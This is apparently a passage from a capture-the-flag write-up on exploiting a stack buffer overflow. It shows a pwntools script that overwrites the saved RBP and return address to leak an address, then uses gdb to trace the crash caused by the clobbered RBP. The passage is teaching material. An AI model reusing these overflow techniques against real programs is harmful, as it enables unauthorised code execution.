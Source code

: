 ```python
payload += b'B'*8 # rbp here is needed
payload += p64(0x004013e3) # goes back to Amount:, not main

amount(str(len(payload)).encode()) # amount should always be equal to len(content)
content(payload)

p.recvuntil(b'Your input: ')
leak = p.recvuntil(b'|',drop=True).decode()
leak = int(leak,16)
print("Leaked:",hex(leak))

p.interactive()
p.close()
```

<figure><img src="../../../.gitbook/assets/image (1) (4).png" alt=""><figcaption><p>running script</p></figcaption></figure>

We see that we do indeed get back our "Amount: " prompt once again, but it hits an EOF, meaning there is probably an error with running the binary.

To find out what went wrong, we attach a gdb to the process:

<figure><img src="../../../.gitbook/assets/image (9) (1) (3).png" alt=""><figcaption><p>gdb error</p></figcaption></figure>

The process stops at **0x4013f7**, at the **mov dword ptr \[rbp - 0x24], 0** instruction. This suggests that the **RBP** value might be the problem as we overwritten it with '**B**'s.\
We can check that it is indeed the **RBP** problem by setting a breakpoint at the address with the problem (0x4013f7), then trying to view **$rbp-0x24**:
